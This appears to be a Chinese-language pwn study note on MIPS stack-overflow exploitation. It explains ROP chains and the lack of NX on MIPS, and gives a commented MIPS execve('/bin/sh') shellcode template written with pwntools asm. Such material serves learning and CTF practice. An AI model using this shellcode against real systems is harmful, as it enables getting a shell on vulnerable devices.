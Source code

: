 ## ROP链构造

在看雪文章上学到

```
MIPS架构下的栈溢出肯定也是需要通过构造ROP链来getshell的，不过由于MIPS有个特性，即无法开NX保护，这样就有了两种构造ROP链的方式：第一种就是纯ROP链，通过调用system函数来getshell；第二种就是通过构造ROP链，跳转至读入到栈bss段等处的shellcode执行。在实际应用中，最常用的还是通过ROP + shellcode的方式来getshell
```

### ROP+shellcode

利用前提是不开nx的情况下 

这里我们先尝试把shellcode写到栈上。shellode即  syscall（cmd），cmd通过第一个传参寄存器a0来控制，这里就是让a0填充为/bin/sh

payload=垃圾数据+  syscall的gadget的地址+ syscall的gadget 

总结来说栈视图如下：

| 垃圾数据              |
| --------------------- |
| ............          |
| syscall的gadget的地址 |
| syscall的gadget       |



但其实因为不开nx保护的特性，我们可以随便在栈上写入我们的数据，不需要去寻找各种gadget，那么意味着这些都可以硬编码成shellcode，直接套模板即可。

syscall

~~~
shellcode = asm('''
    slti $a2, $zero, -1
    li $t7, 0x69622f2f
    sw $t7, -12($sp)
    li $t6, 0x68732f6e
    sw $t6, -8($sp)
    sw $zero, -4($sp)
    la $a0, -12($sp)
    slti $a1, $zero, -1
    li $v0, 4011
    syscall 0x40404
''')
~~~

解释一下就是

~~~
    slti $a2, $zero, -1                  #参数a2设置为-1
    li $t7, 0x69622f2f                   #“bin”读入栈
    sw $t7, -12($sp)                     
    li $t6, 0x68732f6e                   #“sh”读入栈
    sw $t6, -8($sp)
    sw $zero, -4($sp)                    #以0结尾
    la $a0, -12($sp)                     #设置参数a0为“bin/sh” 
    slti $a1, $zero, -1                  #参数a1设置为-1
    li $v0, 4011                         #设置系统调用号
    syscall 0x40404
~~~
